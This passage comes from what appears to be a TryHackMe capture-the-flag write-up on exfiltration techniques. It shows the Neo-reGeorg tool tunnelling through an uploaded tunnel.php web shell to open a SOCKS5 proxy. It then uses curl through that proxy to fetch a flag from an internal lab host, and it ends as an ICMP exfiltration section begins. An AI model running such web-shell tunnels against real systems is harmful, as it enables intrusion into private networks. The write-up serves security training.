 Once we upload it, we will get that message, now, we can use the tool again:

```
python3 neoreg.py -k thm -u http://10.10.39.16/uploader/files/tunnel.php


          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 5.2.1
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/Neo-reGeorg

+------------------------------------------------------------------------+
  Log Level set to [ERROR]
  Starting SOCKS5 server [127.0.0.1:1080]
  Tunnel at:
    http://10.10.39.16/uploader/files/tunnel.php
```

In order to access our flag, we can use curl:

```
curl --socks5 127.0.0.1:1080 http://172.20.0.120/flag
<p>Your flag: THM{H77p_7unn3l1n9_l1k3_l337}</p>%
```

Nice, our flag is:

```
THM{H77p_7unn3l1n9_l1k3_l337}
```

# Exfiltration using ICMP
---

In this task, we will be showing how to exfiltrate data using the ICMP protocol. ICMP stands forÂ **I**nternetÂ **C**ontrolÂ **M**essageÂ **P**rotocol, and it is a network layer protocol used to handle error reporting. If you need more information about ICMP and the fundamentals of computer networking, you may visit the followingÂ THMÂ room:Â [What is Networking](https://tryhackme.com/room/whatisnetworking).Â 
